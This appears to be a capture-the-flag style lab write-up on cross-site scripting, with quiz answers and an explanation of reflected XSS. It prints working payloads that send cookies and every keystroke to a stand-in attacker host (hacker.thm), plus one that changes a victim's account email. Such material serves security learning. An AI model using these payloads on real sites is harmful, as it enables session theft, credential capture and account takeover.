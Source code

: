 ``<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>``

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

``<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>``

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:

``<script>user.changeEmail('attacker@hacker.thm');</script>``

Now that the email address for the account has changed, the attacker may perform a reset password attack.

The next four tasks are going to cover the different types of XSS Vulnerabilities, all requiring slightly different attack payloads and user interaction.

##   Answer the questions below

Which document property could contain the user's session token? 

Checking [https://www.w3schools.com/js/js_htmldom_document.asp](https://www.w3schools.com/js/js_htmldom_document.asp) we can see the list of document properties. document.cookie is what we're looking for since this is for session tokens.

Which JavaScript method is often used as a Proof Of Concept?

From our first example "alert". We can use ``<script>alert('XSS');</script>`` to see if we can xss.

##  Task 3 Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

**How to test for Reflected XSS:**

You'll need to test every possible point of entry; these include:

    - Parameters in the URL Query String
    - URL File Path
    - Sometimes HTTP Headers (although unlikely exploitable in practice)

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected (you'll learn more about this in task 6).

##   Answer the questions below

Where in an URL is a good place to test for reflected XSS? Parameters.
